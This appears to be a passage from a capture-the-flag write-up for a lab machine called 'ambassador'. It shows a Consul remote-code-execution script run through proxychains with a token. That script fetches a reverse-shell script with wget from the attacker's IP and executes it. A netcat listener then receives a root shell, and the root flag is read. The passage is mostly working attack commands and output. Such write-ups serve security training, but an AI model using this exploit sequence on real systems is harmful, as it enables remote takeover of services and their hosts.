Get reverse shell

```bash
┌──(root㉿kali)-[~/ambassador/consul-rce]                                                                                                
└─# tail README.md                                                                                                                       
...                                                                 
python3 consul_rce.py -th 127.0.0.1 -tp 8500 -ct <CONSUL_TOKEN> -c "/bin/bash /tmp/pwn.sh"                                                                                                                   

┌──(root㉿kali)-[~/ambassador/consul-rce]
└─# proxychains python3 consul_rce.py -th 127.0.0.1 -tp 8500 -ct bb03b43b-1d81-d62b-24b5-39540ee469b5 -c "wget http://10.10.14.29/rev.py"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:8500  ...  OK
[+] Check gfeywocpkdvisaf created successfully
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:8500  ...  OK
[+] Check gfeywocpkdvisaf deregistered successfully

┌──(root㉿kali)-[~/ambassador/consul-rce]
└─# proxychains python3 consul_rce.py -th 127.0.0.1 -tp 8500 -ct bb03b43b-1d81-d62b-24b5-39540ee469b5 -c "python3 ./rev.py"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:8500  ...  OK
[+] Check maridcdemwsrfum created successfully
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:8500  ...  OK
[+] Check maridcdemwsrfum deregistered successfully
```

Listener

```bash
┌──(root㉿kali)-[~/ambassador]
└─# rlwrap nc -lvnkp 1111
listening on [any] 1111 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.11.183] 44042
root@ambassador:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ambassador:/# ls
ls
bin                                home    lost+found  rev.py    snap  var
boot                               lib     media       rev.py.1  srv
dev                                lib32   mnt         root      sys
development-machine-documentation  lib64   opt         run       tmp
etc                                libx32  proc        sbin      usr
root@ambassador:/# cat /root/root.txt
cat /root/root.txt
be3f1c2e12892347788fbc64263bbffc
```
